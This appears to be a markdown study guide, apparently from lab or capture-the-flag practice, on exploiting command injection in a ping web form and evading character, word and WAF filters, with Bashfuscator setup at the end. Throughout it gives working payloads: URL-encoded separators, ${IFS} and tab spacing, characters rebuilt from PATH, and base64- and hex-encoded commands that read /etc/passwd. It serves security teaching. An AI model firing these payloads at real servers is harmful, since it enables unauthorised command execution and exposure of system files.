










# Command Injections

This document summarizes core techniques for discovery and exploitation of **command injection vulnerabilities**. This is by no means an exhaustive guide. 

---

## Table of Contents
- [Command Injections](#command-injections)
    - [Overview](#overview)
    - [Basic Discovery and Exploitation](#basic-discovery-and-exploitation)
    - [Filter Evasion](#filter-evasion)
        - [Single Character Filters - Part 1](#single-character-filters---part-1)
        - [Single Character Filters - Part 2](#single-character-filters---part-2)
        - [Word Filters - Part 1](#word-filters---part-1)
        - [Word Filters - Part 2](#word-filters---part-2)


---

## Overview

Command injection vulnerabilities are among the most critical ones. This type of vulnerability may allow an attacker to execute system commands directly on the back-end server. 

**Sanitization** refers to modifying or filtering user input to remove or escape potentially dangerous characters. **Sanitization** is a common technique used to mitigate command injection attacks; however, **sanitization alone is often insufficient** to fully prevent them. When user input is not properly handled, attackers can utilize special characters to escape the intended context of user input and inject a payload. The payload is then executed as part of the original command.

---

## Basic Discovery and Exploitation

We want to exploit a basic web application that is used to test connectivity to a host. 



When interacting with the target, by entering an IP address, it returns the result of a `PING` command.

```
127.0.0.1
```



Our input appears to be used as input to the `PING` command. The relevant section of source-code probably looks something like this:

```bash
ping -c 1 127.0.0.1
```

This means that user-input is being utilized to execute commands on the back-end server. If there are no **sanitization filters** in place, we can trick the server by appending malicious commands after the original one. 

The following special characters are commonly used to escape the intended context of user input:

| Operator   | URL Encoded Operator   | Description      | Executed Command (first/second/both)     |
| ---------- | ---------------------- | ---------------- |----------------------------------------- |
| `;`        | `%3b`                  | Semicolon        | Both                                     |
| `\n`       | `%0a`                  | New-line         | Both                                     |
| `&`        | `%26`                  | Background       | Both                                     |
| `\|`       | `%7c`                  | Pipe             | Both                                     |
| `&&`       | `%26%26`               | AND              | Both (if first command succeeds)         |
| `\|\|`     | `%7c%7c`               | OR               | Second (if first command fails)          |
| ``` `` ``` | `%60%60`               | Sub-shell        | Both (Linux only)                        |
| `$()`      | `%24%28%29`            | Sub-shell        | Both (Linux only)                        |

When testing any of the above operators on the target an error message is displayed:

```
127.0.0.1;id
```

```
Please match the requested format.
```



Some applications perform input validation on the front-end and erroneously neglect sanitization on the back-end. An easy way to check if input validation happens on the front-end or not, is to examine the requests being sent by opening the browsers **Network** tab. If no new requests are being made when sending the payload, input validation is done on the front-end. 


Front-end validation runs in the user’s browser and provides no real security guarantees. Front-end validation can often be bypassed by sending modified requests directly to the back-end server through a **web proxy**, such as BurpSuite. 

We intercept a request in BurpSuite and modify the POST parameter `ip` to contain a simple URL encoded payload:

```bash
# Original payload
ip=127.0.0.1;whoami

# URL encoded payload
ip=127.0.0.1%3bwhoami
```



The application returns the original `PING` output, as well as the output from the injected command:

```
www-data
```


---

## Filter Evasion

Blacklist filters are a common mitigation technique against command injection vulnerabilities. A blacklist filter consists of a set of disallowed characters and/or keywords; if user input matches any entry in the blacklist, the request is rejected. Modern applications often combine blacklist-based input filtering with a Web Application Firewall (WAF) to introduce an additional layer of defense.

Despite their prevalence, blacklist filters are inherently fragile. They attempt to block known-bad input rather than enforce what is explicitly allowed, making them susceptible to bypass through alternative encodings, shell features, or overlooked characters.

---

### Single Character Filters - Part 1

In this section, we interact with an updated version of the web application introduced earlier. This version includes additional security controls intended to prevent command injection. When attempting to reuse the previously successful payload, the application rejects the request:

```bash
ip=127.0.0.1%3bwhoami
```

```
Invalid input
```


This response differs from the earlier `Please match the requested format` error message, indicating that the payload triggered a security mechanism rather than a simple input validation failure.

The rejected payload contains two potentially suspicious elements:

- A command separator (`;`)
- A system command (`whoami`)

The rejection may be caused by a blacklist entry matching the separator, the command, or both. To determine the exact trigger, we can probe the filter incrementally by submitting minimal payloads and observing the application’s response.

Injecting only a semicolon (`;`) is sufficient to trigger the filter, confirming that this character is blacklisted. Continuing this process with other common command injection operators reveals that the newline character (`\n`) is not filtered and successfully bypasses the blacklist:

```bash
ip=127.0.0.1%0a
```


The newline character acts as a command separator in many shell environments, allowing execution to continue on a new line. However, while the injection operator bypass is successful, attempts to execute commands after the newline fail, indicating the presence of additional filtering mechanisms.

Appending a space character after the newline results in another rejection:

```bash
ip=127.0.0.1%0a+
```


This behavior is expected, as space characters are frequently blacklisted to prevent argument separation. In shell environments, however, whitespace can often be represented in alternative ways.

One common bypass technique is the use of tab characters (`\t`), which are treated as whitespace by the shell but may not be included in blacklist filters:

```bash
ip=127.0.0.1%0a%09
```



We successfully bypassed the space filter by using tabs instead! 

Another effective technique is leveraging the `${IFS}` environment variable. The IFS (Internal Field Separator) variable defines how the shell splits input into arguments and, by default, contains whitespace characters:

```bash
ip=127.0.0.1%0a${IFS}
```



A third approach involves brace expansion. In Bash, brace expansion occurs before command execution and can be used to construct arguments without explicitly including spaces:

```bash
ip=127.0.0.1%0a{ls,-la}
```

At this stage, we have identified one method for bypassing the command separator filter and multiple techniques for bypassing space restrictions:

- `\n` (`%0a`)
- `\t` (`%09`)
- `${IFS}`
- `{arg1, arg2}`

Using these techniques, we can construct payloads that evade the blacklist and successfully execute commands on the back-end server:

```bash
ip=127.0.0.1%0a%09ls%09-la

ip=127.0.0.1%0a${IFS}ls${IFS}-la

ip=127.0.0.1%0a{ls,-la}
```


This demonstrates how blacklist-based defenses can be systematically bypassed by exploiting shell parsing behavior and alternative representations of filtered characters.

---

### Single Character Filters - Part 2

The previous section focused on bypassing blacklist filters targeting command separators and whitespace. In addition to these characters, many applications also blacklist the forward slash (`/`) and backslash (`\`). These characters are essential for referencing files and directories and are therefore commonly restricted in an attempt to prevent command execution.

In Linux environments, several environment variables contain characters such as slashes (`/`), semicolons (`;`), and colons (`:`). When direct usage of these characters is blocked, they can often be reconstructed indirectly by extracting them from environment variable values.

The `PATH` environment variable is a useful starting point, as it typically contains multiple directory paths separated by colons and includes forward slashes. By printing its value, we can observe the characters it contains:

```bash
echo ${PATH}
```


Bash supports substring expansion, allowing individual characters to be extracted from a variable by specifying an offset and length. By extracting a single character starting at index 0, we obtain the forward slash (`/`):

```bash
echo ${PATH:0:1}
```



Similar techniques can be applied to other environment variables such as `HOME`, `PWD`, or `LS_COLORS`, depending on which characters are required.

For example, the `LS_COLORS` variable often contains semicolons. By extracting a single character at the appropriate offset, we can recover the semicolon character (`;`):

```bash
echo ${LS_COLORS:10:1}
```


By dynamically reconstructing blacklisted characters, it becomes possible to build payloads that bypass character-based input filters.

The following payload reconstructs a semicolon using `LS_COLORS` and bypasses whitespace restrictions using `${IFS}`:

```bash
ip=127.0.0.1${LS_COLORS:10:1}${IFS}ls${IFS}-la
```

Similarly, the next payload bypasses a blacklist on the forward slash (`/`) by extracting it from the `PATH` variable and uses alternative whitespace representations to execute a command:

```bash
ip=127.0.0.1%0als%09-al%09${PATH:0:1}home
```


This demonstrates a fundamental weakness of blacklist-based filtering: even when individual characters are blocked, shell features such as parameter expansion allow attackers to reconstruct those characters at runtime. As long as user input is evaluated by a shell interpreter, seemingly restrictive filters can often be bypassed through indirect character generation.

---

### Word Filters - Part 1

The techniques used to bypass blacklisted words differ from those used to bypass blacklisted characters. While character filters are often defeated by alternative encodings or shell metacharacters, word filters are typically bypassed through **obfuscation** — transforming a command so that it no longer matches a filtered keyword while still being interpreted correctly by the shell.

In this section, we interact with an upgraded version of the web application from the previous examples. This version enforces the same character-based filters as before but additionally implements a word-based blacklist.

When attempting to append a command after the newline injection operator, the application rejects the request:

```bash
ip=127.0.0.1%0awhoami
```


This indicates that the injected command itself (`whoami`) is being detected and blocked by the word filter.

Many basic word filters rely on exact string matching. If a command is transformed such that it no longer appears as a contiguous string, it may bypass the filter. A common obfuscation technique involves inserting single or double quotes between characters of a command.

Shells such as `bash` and `PowerShell` remove quotes during parsing, causing the command to be executed as if the quotes were not present.

When using this technique, the following constraints apply:

- Single and double quotes cannot be mixed
- The total number of quotes must be even

Examples of valid obfuscated commands include:

```bash
w'h'o'a'mi
w'h'o'am'i

w"h"o"a"mi
w"h"o"am"i
```

Injecting these obfuscated commands bypasses the word filter and results in successful execution:

```bash
ip=127.0.0.1%0aw'h'o'am'i
ip=127.0.0.1%0aw"h"o"am"i
```


In addition to quotes, other shell features can be leveraged to break up filtered keywords.

The backslash character (`\`) can be used to escape individual characters, and positional parameters such as `$@` can be inserted between characters without altering the final command after shell expansion.

Examples include:

```bash
w\h\o\a\mi
w\h\o\am\i

who$@ami
w$@h$@o$@am$@i
```

These obfuscated commands successfully bypass the word filter:

```bash
ip=127.0.0.1%0aw\h\o\a\mi
ip=127.0.0.1%0awho$@ami
```



Word obfuscation techniques can be combined with previously discussed character bypass methods to construct more complex payloads.

For example, suppose we want to read the contents of `flag.txt` located in `/home/1nj3c70r`, while bypassing filters on command names, spaces, and slashes. The following payload reconstructs each restricted element dynamically:

```bash
ip=127.0.0.1%0ac'a't${IFS}${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt
```



Word-based blacklists are highly susceptible to evasion through shell parsing and expansion. As long as user input is evaluated by a shell interpreter, attackers can often transform filtered keywords into semantically equivalent forms that evade exact-match detection.

---

### Word Filters - Part 2

When dealing with more advanced filtering mechanisms—such as Web Application Firewalls (WAFs) — simple word obfuscation techniques may no longer be sufficient. In these scenarios, additional transformation techniques can be used to alter command structure while preserving execution semantics. 

One such technique is case manipulation, which exploits differences in how operating systems and shells handle character casing.

Windows command interpreters such as `PowerShell` and `cmd.exe` are **case-insensitive**, making case-based obfuscation trivial. Commands can be arbitrarily cased without affecting execution:

```bash
WHOAMI
WHOamI
WhOaMi
```

Linux systems, however, are **case-sensitive**, meaning command names must be lowercase to execute successfully. In these environments, case manipulation can still be leveraged by transforming input at runtime.

This can be achieved by using the `tr` utility within a `subshell` to convert uppercase characters to lowercase before execution:

```bash
$(tr "[A-Z]" "[a-z]" <<< "WhOaMi")
$(tr "[A-Z]" "[a-z]" <<< "CaT")
```

A payload using this technique may resemble the following:

```bash
ip=127.0.0.1%0a$(tr%09"[A-Z]"%09"[a-z]"<<<"WhOaMi")
```

Another effective word-filter bypass technique involves **reversing** the command string and restoring it at runtime. This can be accomplished using the `rev` utility within a `subshell`.

```bash
# Reverse command --> imaohw
echo 'whoami' | rev

# Reverse back ---> whoami
$(rev <<< 'imaohw')
```

An injected payload using this approach may look like:

```bash
ip=127.0.0.1%0a$(rev<<<'imaohw')
```



A more robust obfuscation strategy involves **encoding** the command and **decoding** it at runtime prior to execution. Common encodings include `base64` and `hex`. 

**Base64 Encoding:** 

```bash
# Base64 encode --> Y2F0IC9ldGMvcGFzc3dk
echo -n 'cat /etc/passwd' | base64

# Base64 decode --> cat /etc/passwd
bash <<< $(base64 -d <<< Y2F0IC9ldGMvcGFzc3dk)

# Base64 decode --> cat /etc/passwd
sh <<< $(base64 -d <<< Y2F0IC9ldGMvcGFzc3dk)
```

**Base64 Payloads:**

```bash
ip=127.0.0.1%0abash<<<$(base64%09-d<<<Y2F0IC9ldGMvcGFzc3dk)

ip=127.0.0.1%0ash<<<$(base64%09-d<<<Y2F0IC9ldGMvcGFzc3dk)
```

**Hex Encoding:**

```bash
# Hex encode --> 636174202f6574632f706173737764
echo -n 'cat /etc/passwd' | xxd -p

# Hex decode --> cat /etc/passwd
bash<<<$(xxd -r -p <<< 636174202f6574632f706173737764)

# Hex decode --> cat /etc/passwd
sh<<<$(xxd -r -p <<< 636174202f6574632f706173737764)
```

**Hex Payloads:**

```bash
ip=127.0.0.1%0abash<<<$(xxd%09-r%09-p<<<636174202f6574632f706173737764)

ip=127.0.0.1%0ash<<<$(xxd%09-r%09-p<<<636174202f6574632f706173737764)
```

Word-based filtering mechanisms often fail to account for shell evaluation order and runtime transformations. Techniques such as **case manipulation**, **string reversal**, and **encoding** allow attackers to reconstruct blocked commands dynamically, rendering exact-match filters ineffective when input is interpreted by a shell.

---

### Automated Obfuscation Tools

When dealing with more advanced security mechanisms — such as WAFs, heuristic-based detection, or behavioral analysis — manual obfuscation techniques may no longer be sufficient. In these cases, automated obfuscation frameworks can be used to generate highly transformed command payloads that evade pattern-based detection.

One such tool is `Bashfuscator`, an automated Bash command obfuscation framework. Rather than relying on a single evasion technique, Bashfuscator applies multiple layers of transformation to a command, producing functionally equivalent output that is significantly harder to analyze or match against static signatures. Depending on configuration, the resulting obfuscated command may range from a few dozen characters to several thousand characters in length.

At a high level, `Bashfuscator` operates by taking a valid `bash` command and transforming it through a series of syntax-preserving obfuscation layers. These transformations rely on standard `bash` features such as:

- Parameter and variable expansion
- Arithmetic expansion
- Command substitution
- String encoding and reconstruction
- Runtime evaluation (eval-style execution paths)

Rather than simply encoding a command, `Bashfuscator` restructures it so that the original command is reconstructed dynamically at runtime, often through multiple intermediate steps. This makes it difficult for blacklist-based filters and signature-driven WAFs to detect the original intent of the command.

Before installing `Bashfuscator`, make sure that you have the necessary dependencies:

```bash
sudo apt update
sudo apt install python3 python3-pip python3-argcomplete xclip
```

Install `Bashfuscator`:

```bash
git clone https://github.com/Bashfuscator/Bashfuscator
cd Bashfuscator
python3 setup.py install --user
```

Once installed, `Bashfuscator` can be used from the `/bashfuscator/bin` directory.

**Examples:**

```bash
./bashfuscator -c 'cat /etc/passwd'
```

Bashfuscator supports multiple configuration options that control how aggressively the command is obfuscated. 

For example:

```bash
./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1
```

---

